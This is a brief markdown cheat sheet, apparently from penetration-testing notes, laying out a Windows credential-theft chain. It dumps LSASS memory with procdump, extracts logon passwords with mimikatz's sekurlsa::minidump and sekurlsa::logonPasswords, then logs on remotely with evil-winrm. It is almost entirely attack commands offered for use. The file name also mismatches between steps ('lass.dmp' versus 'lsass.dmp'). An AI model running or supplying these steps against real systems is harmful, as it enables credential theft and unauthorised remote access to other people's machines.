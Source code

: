 # Create a dump of lsass process:
`procdump.exe -ma lsass lass.dmp`

# Launch mimikatz:
# Use the minidump module in mimikaz
`sekurlsa::minidump lsass.dmp`
# Use the logonPasswords function
`sekurlsa::logonPasswords`

# After obtaining the password we can logon remotely
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`